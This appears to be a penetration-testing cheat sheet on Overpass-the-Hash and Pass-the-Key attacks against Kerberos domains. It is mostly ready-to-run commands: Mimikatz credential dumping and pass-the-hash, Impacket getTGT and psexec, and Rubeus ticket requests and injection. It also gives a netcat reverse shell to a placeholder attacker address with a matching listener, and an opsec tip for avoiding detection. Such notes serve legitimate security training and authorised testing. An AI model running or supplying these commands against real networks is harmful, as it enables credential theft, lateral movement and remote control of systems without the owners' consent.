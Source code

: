 # Overpass the Hash / Pass the Key (PtK)

## Similar to PtH but applied to kerberos networks.

### The Overpass The Hash/Pass The Key (PTK) attack is designed for environments where the traditional NTLM protocol is restricted, and Kerberos authentication takes precedence. This attack leverages the NTLM hash or AES keys of a user to solicit Kerberos tickets, enabling unauthorized access to resources within a network.

### To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

### If we have any of those keys (DES,RC4,AES128,AES256) we can ask the KDC for a TGT without requiring the actual password. (Pass-the-Key)

#### 

    privilege::debug

#### 

    sekurlsa::ekeys

#### 

    sekurlsa::pth /user:Administrator /domain:DOMAIN /rc4:KEY /run:"c:\tools\nc64.exe -e cmd.exe ATTACK_IP PORT"

OR 

    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:Security.local /ntlm:<ntlmhash> /run:powershell.exe"'

#### /aes128:KEY can also be used instead 

#### /aes256:KEY can also be used instead 

#### 

    nc -lvp PORT

## Alternate Method: Impacket getTGT

    python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7

    export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache

    python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass

## Alternate Method: Rubeus

    .\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt

    .\PsExec.exe -accepteula \\labwws02.jurassic.park cmd

    .\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec (Use AES256 for better opsec)


## Tools: Rubeus , getTGT.py

#### 1) getTGT.py

    getTGT.py DOMAIN/USER -hashes:HASHES (Overpass the Hash. Pass the ticket with NTLM hash)

    getTGT.py -aesKey 'KEY' DOMAIN/USER@IP (Pass the Key. Pass the ticket with AES Key)

#### 2) Rubeus

    Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

    Rubeus ptt /ticket:TICKET (Successful PtT attack)

### Alternate usage:

    Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

    Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]

    Rubeus ptt /luid:0xdeadbeef /ticket:TICKET (Pass the ticket)
